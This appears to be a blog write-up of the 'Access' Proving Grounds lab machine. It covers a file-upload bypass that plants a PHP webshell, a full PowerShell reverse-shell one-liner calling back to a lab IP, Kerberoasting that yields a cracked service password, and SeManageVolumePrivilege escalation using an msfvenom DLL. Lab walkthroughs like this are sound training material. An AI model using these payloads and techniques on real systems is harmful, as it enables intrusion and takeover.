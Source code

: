 ```yaml
---
title: "Access"
date: 2025-06-20
categories:
  - Proving Grounds
  - Active Directory
  - Windows
tags:
  - Proving Grounds
  - Active Directory
---
```


# Access 🔸
<!-- more -->


## Enumeration

![](../assets/Pasted%20image%2020250323155804.png)

Web server shows a page about the event.

![](../assets/Pasted%20image%2020250323155931.png)

## Initial Access

We can upload images, so we can upload a webshell; change the extension by intercepting the request and change it from `.png` to `.php...`

![](../assets/Pasted%20image%2020250323170917.png)

File will be in `/uploads` (discovered with `feroxbuster`).

![](../assets/Pasted%20image%2020250323171044.png)

Now let's try to get a reverse shell:

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.45.220',80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

![](../assets/Pasted%20image%2020250323182244.png)

## Privilege Escalation

Transfer `sharphound` and get the zip. See the data in `bloodhound`.

User `svc_mssql` is kerberoastable.

We don't have `svc_apache` password, so we have to execute the attack on the target. Transfer `rubeus` there.

![](../assets/Pasted%20image%2020250323190341.png)

Using `hashcat`:

![](../assets/Pasted%20image%2020250323190445.png)

We have `svc_mssql:trustno1`

To execute commands as this user, we need `runas`.

Using `-Remote`, we can redirect the shell to a remote one.

![](../assets/Pasted%20image%2020250323223151.png)

This user has `SeManageVolumePrivilege`.

![](../assets/Pasted%20image%2020250323223409.png)

Using [https://github.com/CsEnox/SeManageVolumeExploit](https://github.com/CsEnox/SeManageVolumeExploit)

Download and transfer the exe.

![](../assets/Pasted%20image%2020250323230405.png)

Now, following the readme, generate a malicious DLL with `msfvenom` and transfer it to `C:\windows\system32\spool\drivers\x64\3\PrintConfig.dll`

Start a listener and trigger it.

![](../assets/Pasted%20image%2020250323233313.png)
![](../assets/Pasted%20image%2020250323233344.png)

## Post Exploitation

![](../assets/Pasted%20image%2020250323233402.png)
